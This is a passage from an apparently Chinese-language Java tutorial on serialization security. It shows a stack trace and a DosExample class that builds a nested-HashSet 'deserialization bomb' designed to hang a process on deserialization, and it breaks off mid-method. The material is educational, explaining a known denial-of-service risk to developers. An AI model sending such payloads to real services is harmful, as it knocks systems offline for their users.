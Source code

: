 输出

Terminal

```java
 Exception in thread "main" java.lang.StackOverflowError
  at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
  at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
  //... 
```

### 7.2 反序列化和拒绝服务攻击(DoS 攻击)

反序列化下面的字节流将保持进程运行，挂起，并慢慢降低系统速度，这是典型的 DoS 攻击。

DosExample.java

```java
 package com.mkyong.io.object.attack;

import java.io.*;
import java.util.HashSet;
import java.util.Set;

public class DosExample {

  public static void main(String[] args) throws Exception {
      System.out.println(bomb().length);

      deserialize(bomb());  // Dos here

      System.out.println("Done");
  }

  static byte[] bomb() {
      Set<Object> root = new HashSet<>();
      Set<Object> s1 = root;
      Set<Object> s2 = new HashSet<>();
      for (int i = 0; i < 100; i++) {
          Set<Object> t1 = new HashSet<>();
          Set<Object> t2 = new HashSet<>();
          t1.add("test-" + i); // make it not equal to t2

          s1.add(t1); // root also add set
          s1.add(t2);

          s2.add(t1);
          s2.add(t2);

          s1 = t1;    // reference to t1, so that `root` can add new set from the last t1
          s2 = t2;
      }
      return serialize(root);
  }

  public static byte[] serialize(Object o) {
      ByteArrayOutputStream ba = new ByteArrayOutputStream();
      try {
          new ObjectOutputStream(ba).writeObject(o);
      } catch (IOException e) {
          throw new IllegalArgumentException(e);
      }
      return ba.toByteArray();
  }

  public static Object deserialize(byte[] bytes) {
```